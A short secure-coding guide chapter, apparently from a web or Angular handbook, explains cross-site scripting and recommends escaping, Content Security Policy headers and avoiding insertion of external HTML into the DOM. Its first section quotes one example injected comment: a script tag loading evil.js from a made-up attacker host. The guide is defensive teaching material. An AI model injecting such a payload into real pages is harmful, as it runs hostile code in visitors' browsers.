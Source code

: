 ```yaml
---
title: 'Cross Site Scripting (XSS)'
dateUpdated: '27-02-2021'
summary: 'About cross-site scripting and security'
chapter: '16'
---
```

# 16. Cross Site Scripting (XSS)
1. ## Understand XSS
	Cross-site scripting (XSS) involves someone finding a way to get your user’s browser to run JavaScript code you didn’t intend your app to run. The most common way of doing this is by submitting HTML through one of the forms and counting on your app to add this HTML to the page. Since injected code is run by the browser in the context of your application, the opportunities for abuse are endless.Suppose we are writing a blog that accepts comments. When we display comments we do so by setting div.innerHTML. Someone posts a comment that says: `<script src="http//h4kk3rs.com/code/that/does/something/evil.js"></script>`Your app will add this HTML to the DOM, which will cause the browser to run the code.
2. ##  Do Not Assume You Can Make HTML Safe
	HTML is a beast. You can’t parse it with regular expressions. You can’t count on knowing all the crazy corners in all versions for all browsers. So, don’t count on running HTML through a regexp and fully sanitizing it. The only moderately safe way of handling HTML in a browser is to escape it, though even that will leave you open to XSS on some browsers.
3. ## Set Content Security Policy Headers
	Content Security Policy headers tell modern browsers to block some of the most common holes. Don’t count on it to prevent all XSS, but do it for a good measure.
4. ## Avoid Attaching External HTML Into DOM
	Since external HTML cannot be made safe, the best strategy is to avoid inserting it into DOM. Angular gives you some methods of doing this if you really insist, plus you always attach it to DOM directly. This doesn’t make it a good idea, however.